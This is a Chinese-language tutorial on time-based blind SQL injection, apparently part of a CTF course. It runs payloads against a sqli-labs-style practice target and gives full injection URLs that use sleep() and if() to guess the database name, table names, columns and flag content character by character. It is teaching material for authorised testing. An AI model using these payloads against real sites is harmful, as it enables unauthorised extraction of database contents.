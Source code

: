 # sql注入之sleep注入
  
  
## 一、免责声明
  
  
该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。
  
## 二、原理
  
  
sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。
  
sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。
  
## 三、靶机地址
  
  
>http://39.98.88.18:8080/sql/Less-9/index.php?id=1
  
## 四、函数介绍
  
  
1.sleep()函数
  
sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。
  
在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。
  
![](img/2.8/1.png )
  
执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。
  
2.if函数
  
if函数的表达式如下：
  
>if(表达式1,表达式2,表达式3)
  
如果表达式１是true，则返回表达式２；否则返回表达式３。
  
## 五、实战
  
  
因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。
  
1.判断注入类型以及闭合方式
  
我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接
  
>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+
  
此时发现过了将近10s后页面正常返回。单引号闭合成功。
  
2.猜数据库
  
首先我们来判断一下数据库的长度
  
>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+
  
我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。
  
接下来我们继续猜测数据库名称
  
>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+
  
此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。
  
由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。
  
subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：
  
>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+
  
然后依次判断其他位数，再次不在详细叙述。
  
3.判断表名
  
首先我们来判断一下seucrity各个数据表的长度。
  
>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+
  
然后依次判断表名称中的每个字符
  
>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+
  
通过上面的判断我们可以的得出存在flag这个表。
  
４.判段flag表中的列。
  
判断flag表中列的长度
  
>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+
  
可以判断长度为４位，然后判断列名
  
>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+
  
然后通过substr和limit参数来修改剩余各位。
  
5.判断内容
  
>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+
  
## 六、sqlmap
  
  
因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.
  
关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。
  
## 七、赛题实战
  
  
如有问题，可以随时在知识星球内＠江江河畔砍柴人
  
赛题地址: https://t.zsxq.com/6AUzBaY
  
## 八、小结
  
  
CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接
  
答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：
  
![](img/2.8/00.jpeg )
  
及时获取更多消息，请关注微信订阅号
  
![](img/2.8/0.jpg )
  
